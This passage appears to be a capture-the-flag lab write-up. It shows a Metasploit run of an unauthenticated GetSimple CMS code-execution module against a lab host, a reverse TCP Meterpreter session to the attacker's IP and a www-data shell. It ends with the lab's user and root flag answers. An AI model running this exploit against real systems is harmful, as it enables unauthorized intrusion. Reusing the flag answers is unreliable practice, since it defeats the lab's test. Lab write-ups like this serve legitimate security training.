 ```
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set RHOSTS gettingstarted.htb
RHOSTS => gettingstarted.htb
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Sending stage (39927 bytes) to 10.129.42.107
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.129.42.107:59896) at 2023-10-26 13:39:43 -0400

meterpreter > shell
Process 6618 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
The module gets the username by itself from the user file that we found earlier.


## Questions
Spawn the target, gain a foothold and submit the contents of the user.txt flag.
```
> 7002d65b149b0a4d19132a66feed21d8
```

After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.
```
> f1fba6e9f71efb2630e6e34da6387842
```